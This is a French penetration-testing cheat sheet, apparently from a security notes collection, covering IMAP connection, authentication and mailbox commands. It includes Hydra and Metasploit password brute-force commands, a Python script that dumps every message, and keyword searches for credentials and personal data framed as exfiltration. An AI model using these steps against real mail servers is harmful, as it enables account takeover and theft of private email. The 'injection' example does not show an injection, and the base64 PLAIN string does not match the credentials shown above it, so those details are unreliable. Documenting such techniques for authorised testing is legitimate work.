

Ce protocole permet l'interaction avec des serveurs de messagerie. Les interactions avec **POP3 Enumeration**, **SMTP Enumeration**, **Credential Stuffing** et **Network Services Enumeration** sont souvent corrélées lors d'une phase de reconnaissance.

## Connexion au serveur

### Test d'accès
```bash
nmap -p 143,993 --script=imap-capabilities target.com
```

> [!warning] Attention au chiffrement
> Privilégier le port 993 (IMAPS) pour éviter l'interception des données en clair.

### Connexion via Telnet
```bash
telnet target.com 143
```

### Connexion via OpenSSL
```bash
openssl s_client -connect target.com:993 -crlf
```

## Authentification

> [!note] Format des commandes
> Le format des commandes IMAP nécessite un tag unique (ex: a1, a2) pour chaque requête.

### Authentification LOGIN
```bash
a1 LOGIN utilisateur motdepasse
```

### Authentification AUTH PLAIN
> [!warning] L'authentification PLAIN nécessite un encodage spécifique des caractères nuls
```bash
echo -ne '\0utilisateur\0motdepasse' | base64
a2 AUTHENTICATE PLAIN dXNlcm5hbWUAcGFzc3dvcmQ=
```

## Attaques par force brute (hydra/metasploit)

### Force brute avec Hydra
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt target.com imap
```

### Utilisation de Metasploit
```bash
use auxiliary/scanner/imap/imap_login
set RHOSTS target.com
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

## Analyse de vulnérabilités spécifiques (ex: IMAP injection)

L'injection IMAP survient lorsque des entrées utilisateur ne sont pas correctement assainies avant d'être traitées par une commande IMAP.

```bash
# Exemple d'injection via un champ de recherche mal protégé
a1 SEARCH SUBJECT "test" OR HEADER FROM "admin@target.com"
```

## Extraction automatisée (scripts python/impacket)

### Script Python d'extraction simple
```python
import imaplib

mail = imaplib.IMAP4_SSL('target.com', 993)
mail.login('user', 'password')
mail.select('inbox')
status, messages = mail.search(None, 'ALL')
for num in messages[0].split():
    typ, data = mail.fetch(num, '(RFC822)')
    print(f'Message {num}: {data[0][1]}')
mail.logout()
```

## Exfiltration de données sensibles (PII/Credentials)

Une fois l'accès obtenu, cibler les mots-clés dans les emails pour exfiltrer des identifiants ou des données personnelles (PII).

```bash
# Recherche de mots-clés sensibles
a1 SEARCH TEXT "password"
a2 SEARCH TEXT "vpn"
a3 SEARCH TEXT "confidential"
```

## Gestion des dossiers

### Lister les boîtes aux lettres
```bash
a3 LIST "" "*"
```

### Sélectionner une boîte aux lettres
```bash
a4 SELECT INBOX
```

## Lecture et recherche d'emails

> [!danger] Risque de logs
> Les actions de lecture ou de suppression peuvent être tracées par le serveur.

### Lister les emails
```bash
a5 FETCH 1:* FLAGS
```

### Rechercher les emails non lus
```bash
a6 SEARCH UNSEEN
```

### Lire un email spécifique
```bash
a7 FETCH 5 BODY[TEXT]
```

### Lire les headers
```bash
a8 FETCH 1:* (FLAGS BODY[HEADER])
```

## Suppression et gestion des emails

### Marquer pour suppression
```bash
a9 STORE 5 +FLAGS (\Deleted)
```

### Suppression définitive
```bash
a10 EXPUNGE
```

### Copier un email
```bash
a11 COPY 3 "Archives"
```

### Créer un dossier
```bash
a12 CREATE "NouveauDossier"
```

## Déconnexion

```bash
a13 LOGOUT
```

## Récapitulatif des commandes

| Action | Commande |
| :--- | :--- |
| Connexion en clair | `telnet target.com 143` |
| Connexion SSL/TLS | `openssl s_client -connect target.com:993 -crlf` |
| Authentification classique | `a1 LOGIN user password` |
| Authentification PLAIN (Base64) | `a2 AUTHENTICATE PLAIN dXNlcm5hbWUAcGFzc3dvcmQ=` |
| Lister les boîtes aux lettres | `a3 LIST "" "*"` |
| Sélectionner INBOX | `a4 SELECT INBOX` |
| Lister tous les emails | `a5 FETCH 1:* FLAGS` |
| Rechercher emails non lus | `a6 SEARCH UNSEEN` |
| Lire un email spécifique | `a7 FETCH 5 BODY[TEXT]` |
| Lire les headers | `a8 FETCH 1:* (FLAGS BODY[HEADER])` |
| Marquer comme supprimé | `a9 STORE 5 +FLAGS (\Deleted)` |
| Supprimer définitivement | `a10 EXPUNGE` |
| Copier un email | `a11 COPY 3 "Archives"` |
| Créer un dossier | `a12 CREATE "NouveauDossier"` |
| Déconnexion | `a13 LOGOUT` |
```